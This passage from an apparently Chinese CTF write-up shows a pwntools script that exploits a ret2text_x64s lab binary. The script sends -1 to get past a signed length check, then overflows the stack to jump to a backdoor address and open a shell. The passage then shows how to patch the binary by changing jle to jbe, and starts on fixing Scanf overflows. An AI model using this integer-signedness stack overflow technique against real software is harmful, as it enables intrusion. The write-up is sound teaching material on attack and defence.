  如下文件：https://wutongblogs.oss-cn-beijing.aliyuncs.com/test/fix/ret2text_x64s

## 2.1 攻击

反汇编：

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/fix/fix9.png?x-oss-process=style/watermark)

 `if`判断的时候是整型，但是  `read` 读取的时候，后面字节限制的无符号型，因此可以通过输入负数造成溢出：

攻击脚本：

```python
from pwn import *
p=process('./ret2text_x64s')
back_addr=0x400727
context.log_level="debug"
p.recvuntil("of your name:\n")
p.sendline('-1')
p.recvuntil("u name?\n")
payload ='a'*0x18+p64(back_addr)
p.sendline(payload)
p.interactive()
```

成功获取shell：

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/fix/fix10.png?x-oss-process=style/watermark)

## 2.2 修补

将有符号跳转指令 `jle`修改为无符号跳转指令 `jbe`，按 `Ctrl+alt+K` ，弹出KeyPatch：I

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/fix/fix12.png?x-oss-process=style/watermark)

修改：

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/fix/fix13.png?x-oss-process=style/watermark)

修改完之后刷新，成功将其修改：

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/fix/fix14.png?x-oss-process=style/watermark)

保存之后，使用攻击脚本，显示输入字符过长：

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/fix/fix11.png?x-oss-process=style/watermark)

------

# 三、栈溢出修补

除了1.2节介绍的简单栈溢出外，还有其它栈溢出，比如`Scanf`未限制字节长度，此时如何修补呢？如果新加一条判断长度的语句，在编写代码过程中非常简单，但在汇编指令中，是很复杂的，因此我们选择将无字节限制的`Scanf`函数修改为有字节限制的`read`函数。
